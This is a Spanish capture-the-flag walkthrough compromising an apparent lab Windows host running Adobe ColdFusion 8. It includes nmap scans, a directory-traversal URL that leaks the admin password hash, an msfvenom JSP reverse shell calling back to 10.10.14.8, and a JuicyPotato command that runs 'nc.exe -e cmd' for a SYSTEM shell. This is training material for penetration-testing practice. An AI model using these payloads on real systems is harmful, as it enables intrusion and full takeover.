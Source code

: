 
# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows

![Texto alternativo](imgs/1.jpg)


Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus

![Texto alternativo](imgs/2.jpg)

Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services

![Texto alternativo](imgs/3.jpg)

Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.

![Texto alternativo](imgs/4.jpg)

Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/

![Texto alternativo](imgs/5.jpg)

![Texto alternativo](imgs/6.jpg)

Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8

![Texto alternativo](imgs/7.jpg)

Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp

![Texto alternativo](imgs/8.jpg)

Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra

![Texto alternativo](imgs/9.jpg)

Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.

![Texto alternativo](imgs/10.jpg)

Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 
![Texto alternativo](imgs/11.jpg)

Busco vulnerabilidades de Adobe ColdFusion 8

![Texto alternativo](imgs/12.jpg)

Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

![Texto alternativo](imgs/13.jpg)

Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”

![Texto alternativo](imgs/14.jpg)

En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:

![Texto alternativo](imgs/15.jpg)

Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp

![Texto alternativo](imgs/16.jpg)

Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp

![Texto alternativo](imgs/17.jpg)

Comparto el archivo shellreverse.jsp
python3 -m http.server 80

![Texto alternativo](imgs/18.jpg)

Guardo archivo como tarea programada

![Texto alternativo](imgs/19.jpg)

Corro la tarea programada

![Texto alternativo](imgs/20.jpg)

Verifico la carga del archivo

![Texto alternativo](imgs/21.jpg)

Me pongo en escucha por el puerto 443

![Texto alternativo](imgs/22.jpg)

Recibo la consola autenticado como tolis en la máquina víctima

![Texto alternativo](imgs/23.jpg)


# Explotación WEB


# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”

![Texto alternativo](imgs/24.jpg)

Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe

![Texto alternativo](imgs/25.jpg)

Me pongo en escucha por el puerto 4646

![Texto alternativo](imgs/26.jpg)

Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"

![Texto alternativo](imgs/27.jpg)

Recibo  la consola

![Texto alternativo](imgs/28.jpg)

Encuentro la Flag

![Texto alternativo](imgs/29.jpg)





# Links útiles


  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios
## Exploits
## Herramientas

